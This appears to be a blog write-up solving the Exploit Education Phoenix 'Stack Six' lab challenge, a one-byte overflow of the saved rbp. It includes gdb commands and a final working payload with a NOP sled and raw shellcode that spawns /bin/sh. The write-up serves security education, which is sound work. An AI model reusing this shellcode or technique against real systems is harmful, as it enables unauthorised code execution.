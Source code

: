 ```yaml
---
title: "Exploit Education Phoenix : Stack Six"
date: 2023-07-20T16:54:41+02:00
draft: false
tags: [Exploit Development, Reverse Engineering, Exploit Education]
summary: "Writeup on the seventh Phoenix challenge on the Exploit Education website. In this article, we will solve the Stack-Six challenge."
series: ["Exploit Education Phoenix"]
series_order: 7
---
```


{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
Before you look at the solution to the challenges, I invite you to try it for yourself. You can find all the challenges [here](https://exploit.education/phoenix/).
{{< /alert >}}

## Overview of the challenge

The aim of the Phoenix challenges is to analyse the source code of an executable in order to find and exploit a vulnerability. This first series of challenges concerns the stack. 

The first thing to do is to analyse the executable's source code. Looking for a vulnerability to exploit.

```c
char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

This challenge is the last in the stack series, so it's the hardest challenge in the series. The aim of this final challenge is to exploit a [one-byte overflow](https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows/). As with the previous challenge, to succeed we have to open a shell by executing shellcode.

The first thing you notice is the use of the `getenv` function, which is used to retrieve the value of an environment variable. This value is then used to call the `greet` function.

So we need to take a closer look at the `greet` function. This function allocates a buffer of 128 bytes, then checks that the size of the value of the environment variable `ExploitEducation` does not exceed the size of the buffer. However, you can see that in the rest of the function, it calls the `strcpy` function and the `strncpy` function. Calling the `strcpy` function allows the contents of the `what` variable to be written to the buffer, then the `strncpy` function writes the contents of the environment variable to the buffer, limiting the number of characters to the maximum size of the buffer. Note that even when using the `strcpy` function, it is possible to write outside the buffer since the `strncpy` function takes `buffer + strlen(buffer)` as the destination address. The first thing to do is check whether we can rewrite the return value with this buffer overflow.

The first thing to do is to find the return address.

```console
$ gdb stack-six
$ disass main
```

![Disassembly main](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/3472cf35-f8c5-4c2f-9b28-63a30da5a335 'Disassembly of the main function to find the return address.')

So we now know that the return address is: `0x00000000004007E9`. Now we have to try and rewrite this value in the stack, so we place a breakpoint just after the call to the `strncpy` function to inspect the stack.

```console
$ export ExploitEducation=$(python -c "print 'A'*127")
$ gdb stack-six
$ disass greet
$ b *0x0000000000400782
$ x/100x $rsp
```

![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/512cd7dc-9624-4b9c-bccf-c86eaa88b270 'Analysis of the stack after writing in the buffer.')

We can see that we can only modify the last byte of the address of the `ebp` register, which is stored just before the return address. We therefore need to find a solution to exploit this vulnerability to execute our shellcode.

## Exploiting the vulnerability

{{< alert cardColor="#e63946" iconColor="white" textColor="white">}}
GDB sometimes shifts stack addresses slightly because of environment variables. This can cause problems when testing a vulnerability outside GDB.
To fix this you need to remove excess environment variables, you can use the `show env` command to show environment variables and `unset env <var_name>` to remove an environment variable. In my case. I had to remove the variables `LINES` and `COLUMNS`.
{{< /alert >}}

The first thing we notice is that we can change the value of the `ebp` register from address: `0x7FFFFFE500` to address `0x7FFFFFE5FF`.

If we analyse the `main` function, we can see that the value of the environment variable is stored in the stack.

![Binary Ninja Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/f8b4f7f2-90e4-463e-8c48-33a91a689769 'Analysis of the `main` function in Binary Ninja.')

The way to exploit a one-byte overflow is to modify the value of the `ebp` register present in the stack so that when a `leave` instruction is executed, the `rsp` register takes the value of the corrupted `rbp` register and finally when the `ret` instruction which follows the `leave` instruction retrieves the return address from the stack, the stack retrieves the return address from the `rsp` register which has just been corrupted. If you're looking for more information on how a one-byte overflow works, I invite you to read [this](https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows/).

We can now analyse the stack.

```console
$ export ExploitEducation=$(python -c "print 'A'*127")
$ gdb stack-six
$ disass main
$ b *0x00000000004007c2
$ r
$ disass greet
$ b *0x0000000000400791
$ c
$ x/50xg $rsp
```

![Breakpoint Hit](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/5d9314e2-a2f6-4865-b348-4fc8c6606153 'Writing the value of the environment variable to the stack.')


![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/91e8511d-3732-4fd0-a038-a13e58549a5a 'Analysis of the stack to find the argument of the greet function.')

Thanks to the stack analysis we now know that the address of the characters we have entered is `0x7FFFFFFFE5D8`. We can use this address to run our shellcode, since we can reach this address by changing the value of the `ebp` registry to `0x7FFFFFFE5D0`.

### Constructing the malicious string

We now have all we need to exploit the vulnerability. We can create our malicious string by setting the environement variable with a `NOP` slide of 50 insctruction, then with a shellcode of 57 bytes that open a shell and 19 `NOP` to reach the `ebp` register. finally, we change the LSB of the `ebp` register by `0XD0`.

```console
$ export ExploitEducation=$(python -c "print '\x90'*50 + '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*19 + '\xD0'")
$ ./stack-six
```

![Attack Result](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/45653570-9914-4756-b707-7c10966f9199 'Result of exploiting the vulnerability.')


Finally, we can see that we've opened a new shell, so we've succeeded in our challenge.
